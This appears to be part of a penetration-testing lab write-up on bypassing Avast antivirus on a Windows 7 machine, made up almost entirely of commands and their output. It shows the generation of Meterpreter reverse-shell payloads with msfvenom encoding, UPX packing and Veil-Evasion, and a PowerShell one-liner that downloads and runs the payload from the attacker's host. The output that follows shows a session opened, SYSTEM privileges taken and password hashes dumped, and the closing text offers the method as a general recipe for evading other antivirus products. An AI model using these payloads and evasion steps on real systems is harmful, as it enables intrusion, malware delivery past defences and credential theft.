     52       3     2204       5400    43     2.02   4108 conhost
    768       6     1708       3828    36     2.83    424 csrss
     77       5    11304       3184    39     1.52    492 csrss
    279       5     1520       4632    34     5.28    692 csrss
     76       3     1684       4276    36     0.88   1872 dwm
    697      32    19880      34416   168    40.86    704 explorer
      0       0        0         24     0               0 Idle
    177      17    11320      18996   101     1.06    944 LogonUI
    748      14     3800       9560    35    21.48    588 lsass
    235       5     2100       4844    23     6.16    596 lsm
    331      10    35872      35552   171     7.97   2256 powershell
    171       4     1888       5084    47     0.86   2668 rdpclip
    620      14    14072       7768    91     2.97   2844 SearchIndexer
    255       7     4304       7364    28    16.66    552 services
     39       1      412        984     3     0.44    352 smss
    322      10     5124       9276    62     0.78   1636 spoolsv
    156       4     2336       7324    30     0.73   2292 sppsvc
    179       8     4472       7920    65     1.05    144 svchost
    385       7     3612       7672    37    18.78    716 svchost
    283       8     3048       5984    28     5.66    848 svchost
    447      12    10212      14700    57    13.73    920 svchost
    463      14    53248      58168   125    26.52    996 svchost
   1471     480   518100     278592   639   110.64   1032 svchost
    329      12     5788       9100    42     9.86   1180 svchost
    619      19    10972      13496    73    20.77   1324 svchost
    352      25     6640      10048    43     6.73   1680 svchost
    109       7     1704       4640    27     4.92   2420 svchost
    162       9     2240       5736    28     0.66   3432 svchost

[...]
```

<span style="color: #e57373;">**Attacker machine**</span>.

`msfconsole -q`

`search multi/handler`, `use exploit/multi/handler`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set LHOST 172.16.5.101`, `set LPORT 4444`, `exploit -j`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.5.101:4444 ←
```

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -o ./reverse_shell_enc.exe`:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai succeeded with size 462 (iteration=3)
x86/shikata_ga_nai succeeded with size 489 (iteration=4)
x86/shikata_ga_nai chosen with final size 489
Payload size: 489 bytes
Final size of exe file: 73802 bytes
Saved as: ./reverse_shell_enc.exe ←
```

`file ./reverse_shell.exe`:
```
./reverse_shell_enc.exe: PE32 executable (GUI) Intel 80386, for MS Windows ←
```

`python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... ←
```

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

`(New-Object System.Net.WebClient).DownloadFile("http://172.16.5.101/reverse_shell_enc.exe", "C:\\Users\aline\reverse_shell_enc.exe"; Start-Process "C:\\Users\aline\reverse_shell_enc.exe")`
```
Start-Process : This command cannot be executed due to the error: The system cannot find the file specified. ←
At line:1 char:144
+ (New-Object System.Net.WebClient).DownloadFile("http://172.16.5.101/reverse_shell_enc.exe", "C:\\Users\aline\reverse_shell_enc.exe"); Start-Process <<<< "C:\\Users\aline\reverse_shell_enc.exe"
    + CategoryInfo          : InvalidOperation: (:) [Start-Process], InvalidOperationException
    + FullyQualifiedErrorId : InvalidOperationException,Microsoft.PowerShell.Commands.StartProcessCommand
```

`dir`:
```
    Directory: C:\Users\aline

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d-r--         1/19/2022  12:47 PM            Desktop
d-r--         1/19/2022  12:47 PM            Documents
d-r--         1/20/2022   8:19 PM            Downloads
```

<span style="color: #e57373;">**Attacker machine**</span>.

`upx -h`:
```
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

Usage: upx [-123456789dlthVL] [-qvfk] [-o file] file.. ←

Commands:
  -1     compress faster                   -9    compress better
  --best compress best (can be slow for big files) ←
  -d     decompress                        -l    list compressed file
  -t     test compressed file              -V    display version number
  -h     give this help                    -L    display software license

Options:
  -q     be quiet                          -v    be verbose
  -oFILE write output to 'FILE' ←
  -f     force compression of suspicious files ←
  --no-color, --mono, --color, --no-progress   change look

Compression tuning options:
  --brute             try all available compression methods & filters [slow]
  --ultra-brute       try even more compression variants [very slow]

Backup options:
  -k, --backup        keep backup files
  --no-backup         no backup files [default]

Overlay options:
  --overlay=copy      copy any extra data attached to the file [default]
  --overlay=strip     strip any extra data attached to the file [DANGEROUS]
  --overlay=skip      don't compress a file with an overlay

Options for djgpp2/coff:
  --coff              produce COFF output [default: EXE]

Options for dos/com:
  --8086              make compressed com work on any 8086

Options for dos/exe:
  --8086              make compressed exe work on any 8086
  --no-reloc          put no relocations in to the exe header

Options for dos/sys:
  --8086              make compressed sys work on any 8086

Options for ps1/exe:
  --8-bit             uses 8 bit size compression [default: 32 bit]
  --8mib-ram          8 megabyte memory limit [default: 2 MiB]
  --boot-only         disables client/host transfer compatibility
  --no-align          don't align to 2048 bytes [enables: --console-run]

Options for watcom/le:
  --le                produce LE output [default: EXE]

Options for win32/pe, win64/pe, rtm32/pe & arm/pe:
  --compress-exports=0    do not compress the export section
  --compress-exports=1    compress the export section [default]
  --compress-icons=0      do not compress any icons
  --compress-icons=1      compress all but the first icon
  --compress-icons=2      compress all but the first icon directory [default]
  --compress-icons=3      compress all icons
  --compress-resources=0  do not compress any resources at all
  --keep-resource=list    do not compress resources specified by list
  --strip-relocs=0        do not strip relocations
  --strip-relocs=1        strip relocations [default]

Options for linux/elf:
  --preserve-build-id     copy .gnu.note.build-id to compressed output

file..   executables to (de)compress

This version supports:
    amd64-darwin.dylib                   dylib/amd64
    amd64-darwin.macho                   macho/amd64
    amd64-linux.elf                      linux/amd64
    amd64-linux.kernel.vmlinux           vmlinux/amd64
    amd64-win64.pe                       win64/pe
    arm-darwin.macho                     macho/arm
    arm-linux.elf                        linux/arm
    arm-linux.kernel.vmlinux             vmlinux/arm
    arm-linux.kernel.vmlinuz             vmlinuz/arm
    arm-wince.pe                         arm/pe
    arm64-darwin.macho                   macho/arm64
    arm64-linux.elf                      linux/arm64
    armeb-linux.elf                      linux/armeb
    armeb-linux.kernel.vmlinux           vmlinux/armeb
    fat-darwin.macho                     macho/fat
    i086-dos16.com                       dos/com
    i086-dos16.exe                       dos/exe
    i086-dos16.sys                       dos/sys
    i386-bsd.elf.execve                  bsd.exec/i386
    i386-darwin.macho                    macho/i386
    i386-dos32.djgpp2.coff               djgpp2/coff
    i386-dos32.tmt.adam                  tmt/adam
    i386-dos32.watcom.le                 watcom/le
    i386-freebsd.elf                     freebsd/i386
    i386-linux.elf                       linux/i386
    i386-linux.elf.execve                linux.exec/i386
    i386-linux.elf.shell                 linux.sh/i386
    i386-linux.kernel.bvmlinuz           bvmlinuz/i386
    i386-linux.kernel.vmlinux            vmlinux/i386
    i386-linux.kernel.vmlinuz            vmlinuz/i386
    i386-netbsd.elf                      netbsd/i386
    i386-openbsd.elf                     openbsd/i386
    i386-win32.pe                        win32/pe ←
    m68k-atari.tos                       atari/tos
    mips-linux.elf                       linux/mips
    mipsel-linux.elf                     linux/mipsel
    mipsel.r3000-ps1                     ps1/exe
    powerpc-darwin.macho                 macho/ppc32
    powerpc-linux.elf                    linux/ppc32
    powerpc-linux.kernel.vmlinux         vmlinux/ppc32
    powerpc64-linux.elf                  linux/ppc64
    powerpc64le-darwin.macho             macho/ppc64le
    powerpc64le-linux.elf                linux/ppc64le
    powerpc64le-linux.kernel.vmlinux     vmlinux/ppc64le

UPX comes with ABSOLUTELY NO WARRANTY; for details visit https://upx.github.io
```

`upx --best --ultra-brute -f ./reverse_shell_enc.exe -o ./reverse_shell_encupx.exe`:
```
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     73802 ->     47104   63.82%    win32/pe     reverse_shell_encupx.exe ←   

Packed 1 file.
```

`file ./reverse_shell_encupx.exe`:
```
./reverse_shell_encupx.exe: PE32 executable (GUI) Intel 80386, for MS Windows, UPX compressed ←
```

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

`(New-Object System.Net.WebClient).DownloadFile("http://172.16.5.101/reverse_shell_encupx.exe", "C:\\Users\aline\reverse_shell_encupx.exe"; Start-Process "C:\\Users\aline\reverse_shell_encupx.exe")`
```
Start-Process : This command cannot be executed due to the error: The system cannot find the file specified. ←
At line:1 char:144
+ (New-Object System.Net.WebClient).DownloadFile("http://172.16.5.101/reverse_shell_encupx.exe", "C:\\Users\aline\reverse_shell_encupx.exe"); Start-Process <<<< "C:\\Users\aline\reverse_shell_encupx.exe"
    + CategoryInfo          : InvalidOperation: (:) [Start-Process], InvalidOperationException
    + FullyQualifiedErrorId : InvalidOperationException,Microsoft.PowerShell.Commands.StartProcessCommand
```

`dir`:
```
    Directory: C:\Users\aline

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d-r--         1/19/2022  12:47 PM            Desktop
d-r--         1/19/2022  12:47 PM            Documents
d-r--         1/20/2022   8:19 PM            Downloads
```

<span style="color: #e57373;">**Attacker machine**</span>.

`veil` > `use Evasion` > `list` > `use python/meterpreter/rev_tcp.py`, `set LHOST 172.16.5.101`, `set LPORT 4444`, `generate`:
```
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 [>] Please enter the base name for output files (default is payload): reverse_shell_encveil ←
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 [?] How would you like to create your payload executable?

     1 - PyInstaller (default) ←
     2 - Py2Exe

 [>] Please enter the number of your choice: 1

[...]

===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 [*] Language: python
 [*] Payload Module: python/meterpreter/rev_tcp
 [*] Executable written to: /var/lib/veil/output/compiled/reverse_shell_encveil.exe ←
 [*] Source code written to: /var/lib/veil/output/source/reverse_shell_encveil.py
 [*] Metasploit Resource file written to: /var/lib/veil/output/handlers/reverse_shell_encveil.rc
```

`exit`

`mv /var/lib/veil/output/compiled/reverse_shell_encveil.exe /root/`

`file ./reverse_shell_encveil.exe`:
```
reverse_shell_encveil.exe: PE32 executable (GUI) Intel 80386 (stripped to external PDB), for MS Windows ←
```

`upx --best --ultra-brute -f ./reverse_shell_encveil.exe -o ./reverse_shell_encveilupx.exe`:
```
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   4768048 ->   4735280   99.31%    win32/pe     reverse_shell_encveilupx.exe ←  

Packed 1 file.
```

`file ./reverse_shell_encveilupx.exe`:
```
reverse_shell_encveilupx.exe: PE32 executable (GUI) Intel 80386 (stripped to external PDB), for MS Windows, UPX compressed ←
```

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

`(New-Object System.Net.WebClient).DownloadFile("http://172.16.5.101/reverse_shell_encveilupx.exe", "C:\\Users\aline\reverse_shell_encveilupx.exe"; Start-Process "C:\\Users\aline\reverse_shell_encveilupx.exe")

`dir`:
```
    Directory: C:\Users\aline

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d-r--         1/19/2022  12:47 PM            Desktop
d-r--         1/19/2022  12:47 PM            Documents
d-r--         1/20/2022   8:19 PM            Downloads
-a---         1/21/2022   4:55 PM    4735280 reverse_shell_encveilupx.exe
```

<span style="color: #e57373;">**Attacker machine**</span>.

```
[*] Sending stage (175174 bytes) to 172.16.5.10 ←
[*] Meterpreter session 1 opened (172.16.5.101:4444 -> 172.16.5.10:49166) at 2022-01-21 19:51:58 -0500 ←
```

`sessions`, `sessions -i 1`

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

`getuid`:
```
Server username: IE8WIN7\aline ←
```

`sysinfo`:
```
Computer        : IE8WIN7
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

`ps -f Avast`:
```
Filtering on 'Avast'

Process List
============

 PID   PPID  Name          Arch  Session  User                 Path
 ---   ----  ----          ----  -------  ----                 ----
 1384  552   AvastSvc.exe  x86   0        NT AUTHORITY\SYSTEM  C:\Program Files\Avast Software\Avast\AvastSvc.exe ←
 2584  3648  AvastUI.exe   x86   2        IE8WIN7\aline        C:\Program Files\Avast Software\Avast\AvastUI.exe
 4944  2584  AvastUI.exe   x86   2        IE8WIN7\aline        C:\Program Files\Avast Software\Avast\AvastUI.exe
 5992  2584  AvastUI.exe   x86   2        IE8WIN7\aline        C:\Program Files\Avast Software\Avast\AvastUI.exe
 6076  2584  AvastUI.exe   x86   2        IE8WIN7\aline        C:\Program Files\Avast Software\Avast\AvastUI.exe
```

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

`hashdump`:
```
admin:1005:aad3b435b51404eeaad3b435b51404ee:179699ef43d4b9ba2f8f615f59893917:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889::: ←
aline:1004:aad3b435b51404eeaad3b435b51404ee:bf4c3092a586df1a9137a4f5737bdc94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sshd:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

In this lab, we experienced many failed attempts and a final successful attempt in bypassing Avast AV. This should give you an idea on bypassing other AVs as well.
The process is simple: try and mutate the payload using various techniques (encoding, compressing, etc.).
Since not all AVs are designed the same way, and thus a lot more effort might be required if you are planning to bypass multiple AVs. But this lab should give you a taste of what it takes to bypass an AV.

---
---
